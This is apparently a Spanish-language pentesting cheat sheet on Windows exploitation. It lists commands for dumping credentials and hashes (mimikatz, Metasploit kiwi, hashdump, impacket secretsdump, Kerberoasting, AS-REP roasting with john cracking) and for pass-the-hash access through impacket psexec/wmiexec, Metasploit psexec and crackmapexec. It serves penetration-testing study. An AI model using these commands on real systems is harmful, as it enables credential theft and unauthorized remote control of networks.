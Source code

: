 ```yaml
---
title: "Explotacion"
layout: "single"
category: "Windows Pentesting"
slug: "windows-pentesting/explotacion"
date: "2025-09-30"
---
```


### Dumping passwords/hashes
__Para obtener hashes con kiwi o mimikatz es posible que se requieran privilegios elevados__

#### Módulo kiwi metasploit
A través de metasploit se puede cargar el módulo kiwi (mimikatz integrado en metasploit). Teniendo una sesión de meterpreter.

```bash
pgrep lsass
migrate <PID de lsass>
load kiwi

###### PARA VER TODAS LAS OPCIONES ESCRIBIMOS UN "'?"
### OPCIONES INTERESANTES
creds_all #si hay alguna en texto plano lo mostrará
creds_kerberos
password_change
lsa_dump_secrets
wifi_list

```

#### Mimikatz
Otra manera es con mimikatz de manera nativa, se puede subir a través de un meterpreter, o con certutil. Mimikatz por defecto en kali se encuentra en: **/usr/share/windows-resources/mimikatz/x64/mimikatz.exe**

Una vez ejecutado:
```bash
privilege::debug 
## Si nos devielve Privilege '20' OK está todo correcto

####COMANDOS INTERESANTES
lsadump::sam
lsadump::secrets
sekurlsa:logonpasswords #si hay alguna en texto plano lo mostrará
```

#### Con meterpreter
```bash
hashdump
```

#### Ataque TGT con impacket
si tenemos una pareja de credenciales (user/pass), podemos intentar obtener todos los hashes de los usuarios del dominio, incluido el del administrador.
```bash
#opcion1
impacket-secretsdump -just-dc usuario@ip (SAM HASH, para pass-the-hash)

#opcion2
impacket-GetUserSPNs dominio/usuario:contraseña -request (para john)

```
#### NOT-PREAUTH Attack Impacket
Cuando detectamos usuarios en un dominio que tienen el NOT-PREAUTH, podemos intentar obtener el hash de su contraseña para luego crackearla con john the ripper.

```bash
#opcion1
impacket-GetNPUsers <dominio>/<usuario> -no-pass

#opcion2
impacket-GetNPUsers <dominio>/ -no-pass -usersfile usuarios.txt
```
```bash
#Con el hash obtenido, lo pasamos por john
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### Pass-the-hash
Poemos intentar acceder al dominio sin necesidad de crackear la contraseña, solamente teniendo el hash, haciendo un **pass the hash**

#### impacket
```bash
#opcion 1
impacket-psexec usuario@ip -hashes <hash en cadena de texto>

#opcion 2
impacket-wmiexec <dominio>/user@ip -hashes <hash en cadena de texto>

### EJEMPLO
impacket-psexec Administrator@10.10.10.4 -hashes aaeeff31234aaaadddsfee345:2345:addfbbe
```
#### Metasploit psexec
```bash
use exploit/windows/smb/psexec
# RELLENAR OPCIONES, PERO LAS IMPORTANTES SON
SMBuser
SMBPass ##AQUI INTRODUCIMOS EL NTML HASH O NT HASH
set target Command (y si no funciona probar otro target)
exploit
```

#### Crackmapexec
```bash
##`PROBAR QUE FUNCIONA
#RESPETAR COMILLAS
crackmapexec smb <target IP> -u <user> -H "hash" 

## EJECUTAR COMANDOS
crackmapexec smb <target IP> -u <user> -H "hash"  -x "ipconfig"
```